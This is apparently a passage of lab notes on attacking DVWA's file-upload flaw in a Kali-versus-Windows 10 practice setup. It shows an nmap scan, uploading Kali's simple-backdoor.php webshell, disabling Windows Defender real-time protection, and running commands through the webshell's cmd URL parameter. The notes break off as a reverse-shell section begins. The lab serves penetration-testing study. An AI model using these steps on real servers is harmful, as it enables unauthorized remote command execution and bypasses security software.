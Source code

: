 2. Determine which programming languages supported by DVWA web application (`nmap -sV` version scan):
```
sudo nmap -sV -p 80 <Win10-IP>
```

![](https://i.imgur.com/bdavvg8.png)

3. List out contents of `php` directory
```
ls /usr/share/webshells/php
```

4. Make a `simple-backdoor.php` script (Make copy of it to `/tmp` directory)
```
cp /usr/share/webshells/php/simple-backdoor.php /tmp
```

5. Upload `simple-backdoor.php` script to DVWA

![](https://i.imgur.com/kxDH0PZ.png)

**On Win10 VM**
1. In Win10 target, look in contents of `C:\xampp\hackable\uploads` folder - `simple-backdoor.php` script has been uploaded

**On Kali VM**
1. Browse to uploaded script and run it
2. Error returned and script is not able to run

![](https://i.imgur.com/RxobCqS.png)

**On Win10 VM**
1. Check contents of `C:\xampp\htdocs\hackable\uploads` folder - `simple-backdoor.php` is removed
	- This is because Windows Defender running on the Win10 VM and detected attempt to run malicious script
2. Disable Real-time Protection of Windows Defender

**On Kali VM**
1. In DVWA File Upload, browse to `simple-backdoor.php` script and upload it again
2. Browse to uploaded script to run it and this time the script can be run
3. Change URL to run commands on Win10 (use + sign if there are spaces in command)

![](https://i.imgur.com/HJivVJH.png)
```
http://Win10-IP/dvwa-master/hackable/uploads/simple-backdoor.php?cmd=dir+C:\\Windows
```
![](https://i.imgur.com/yhGl9Kn.png)
- This vulnerability exists because web application allows any type of file
- For **Impossible Security Level**, web application allows only JPEG or PNG file formats

## File Upload to Upload Reverse Shell
**On Win10 VM**
1. For uploaded scripts to run on Win10 target, ensure that Real-time Protection feature of Windows Defender is off
